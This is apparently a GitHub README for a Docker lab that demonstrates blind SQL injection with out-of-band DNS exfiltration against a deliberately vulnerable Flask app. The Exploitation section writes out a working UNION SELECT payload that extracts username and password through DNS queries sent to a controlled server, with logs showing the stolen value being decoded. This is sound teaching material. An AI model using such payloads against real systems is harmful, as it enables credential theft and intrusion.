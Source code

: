 # Blind SQLi Lab with DNS Exfiltration (Out-of-Band)

This lab simulates a vulnerable web application that is susceptible to blind SQL injection. The application uses user input to perform DNS resolution on a hostname retrieved from a database, allowing for **out-of-band (OOB)** data exfiltration via DNS queries to a controlled server.

## 🧪 Lab Components

- **Flask Web App (`/web`)**: 
  - A vulnerable endpoint `/search?id=<number>` executes an unsanitized SQL query.
  - It uses `nslookup` to resolve a hostname retrieved from the database.
  - Optional parameter: `set-dns=<IP>` to specify a custom DNS server for resolution.

- **DNS Listener (`/dns-server`)**:
  - A Python script that runs a simple UDP DNS server and logs incoming raw DNS queries for analysis.

- **Docker**:
  - Docker Compose is used to run both services in isolated containers.

---

## 🛠️ How to Run the Lab

### Clone this repo

	git clone

### Run containers

	sudo docker-compose build --no-cache
	
This will:

- Start the vulnerable web app at http://localhost:8080

- Start the DNS listener: default port UDP 53, internal docker net IP 172.20.53.53


### Payloads

- Using default DNS: this performs a lookup to www.google.it using default DNS -> OK
	
	  /search?id=1
	
Check web app console log

	web_1         | Server:         127.0.0.11
	web_1         | Address:        127.0.0.11#53
	web_1         | 
	web_1         | Non-authoritative answer:
	web_1         | Name:   www.google.it
	web_1         | Address: 216.58.204.227
	web_1         | Name:   www.google.it
	web_1         | Address: 2a00:1450:4002:415::2003
	web_1         | 
	web_1         | 172.20.53.1 - - [09/Jul/2025 08:31:51] "GET /search?id=1 HTTP/1.1" 200 -
	
 - Using custom DNS: this perform the same lookup query using our controlled DNS to resolve it -> Error (but it's expected)

	   /search?set-dns=172.20.53.53&id=1

Check web app console log

 	web_1         | 172.20.53.1 - - [09/Jul/2025 08:31:51] "GET /search?id=1 HTTP/1.1" 200 -
	web_1         | ;; communications error to 172.20.53.53#53: timed out
	web_1         | ;; communications error to 172.20.53.53#53: timed out
	web_1         | ;; communications error to 172.20.53.53#53: timed out
	web_1         | ;; no servers could be reached
	web_1         | 
	web_1         | 172.20.53.1 - - [09/Jul/2025 08:38:27] "GET /search?set-dns=172.20.53.53&id=1 HTTP/1.1" 200 -

	
Indeed check logged queries on our DSN container

	sudo docker exec -it blind-sqli-lab_dns-server_1 /bin/bash                                      
	root@004315a2105c:/app# cat dns_log.txt 

	2025-07-09 08:38:12,913 - DNS query from ('172.20.53.10', 41104): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:38:17,917 - DNS query from ('172.20.53.10', 41908): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:38:22,921 - DNS query from ('172.20.53.10', 57648): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001

 Decode the raw query:

 	root@004315a2105c:/app# exit
	[~/blind-sqli-lab] python decode-raw-dnsq.py 942b010000010000000000000377777706676f6f676c650269740000010001        
	[+] Plain domain value: www.google.it

## 💥Exploitation 
Knowing tha we can control the DNS parameter for nslookup and assuming that a users table is also present in the DB, we can use the following payload to obtain sensitive information:

	/search?set-dns=172.20.53.53&id=1 UNION SELECT (SELECT username || '-' || password FROM users WHERE id=1)
 Check again the logged query

 	[~/blind-sqli-lab] sudo docker exec -it blind-sqli-lab_dns-server_1 /bin/bash                              
	root@004315a2105c:/app# cat dns_log.txt 
	2025-07-09 08:38:12,913 - DNS query from ('172.20.53.10', 41104): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:38:17,917 - DNS query from ('172.20.53.10', 41908): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:38:22,921 - DNS query from ('172.20.53.10', 57648): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:50:39,508 - DNS query from ('172.20.53.10', 60256): RAW = 697e010000010000000000001161646d696e2d73757065727365637265740000010001
	2025-07-09 08:50:44,513 - DNS query from ('172.20.53.10', 49822): RAW = 697e010000010000000000001161646d696e2d73757065727365637265740000010001
	2025-07-09 08:50:49,517 - DNS query from ('172.20.53.10', 40392): RAW = 697e010000010000000000001161646d696e2d73757065727365637265740000010001
	root@004315a2105c:/app# 
Decode the last entries

 	root@004315a2105c:/app# exit
  	[~/blind-sqli-lab] python decode-raw-dnsq.py 697e010000010000000000001161646d696e2d73757065727365637265740000010001                                                             
	[+] Plain domain value: admin-supersecret

## ❓ Why this Lab?
Incredible enough I found this logic implemented in a real app. The parameter where passed as JSON object in the body request to an API, but the logic was the same as presented in this lab, actually:
- no inpunt parameters validation
- control nslookup DNS server
You can eventually automete the process using SQLMap. You can find a good resource at https://blog.cyberadvisors.com/technical-blog/unblinding-blind-sql-injection-using-dns-exfiltration

## Useful docker commands

### Stop containers

	sudo docker compose down 
	
### Rebuild containers
	
	sudo docker-compose build --no-cache
